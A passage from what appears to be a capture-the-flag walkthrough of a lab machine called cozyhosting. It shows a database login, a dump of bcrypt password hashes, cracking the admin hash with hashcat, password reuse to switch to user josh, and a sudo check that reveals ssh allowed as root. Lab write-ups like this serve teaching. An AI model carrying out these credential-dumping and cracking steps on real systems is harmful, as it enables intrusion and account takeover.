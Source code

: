 Authentication:

```
app@cozyhosting:/tmp$ psql -U postgres -h 127.0.0.1
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```

Further enumeration reveals a users table from the cozyhosting database, which includes password hashes for the ```kanderson``` and ```admin``` users.

```
postgres-# \l
postgres-# \c cozyhosting
cozyhosting=# \dt
cozyhosting=# select * from users;
cozyhosting=# 
```

```
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

I was only able to crack the password hash for ```admin```, which doesn't provide much for directly, but we can test for password reuse.

```
┌──(kali㉿kali)-[/tmp]
└─$ hashcat -a 0 hashes.txt /usr/share/wordlists/rockyou.txt -m 3200 --show
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

Looking at system users, ```root```, ```josh```, and ```postgres``` seem worth looking into.
```
app@cozyhosting:/app$ cat /etc/passwd | grep -v nologin | grep -v false
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
```

Using ```manchesterunited``` as ```josh```'s password is successful.
```
app@cozyhosting:/tmp$ su josh
Password: 
josh@cozyhosting:/tmp$
```

Checking sudo privileges for ```josh``` shows that he can run ssh as root.

```
josh@cozyhosting:/tmp$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```
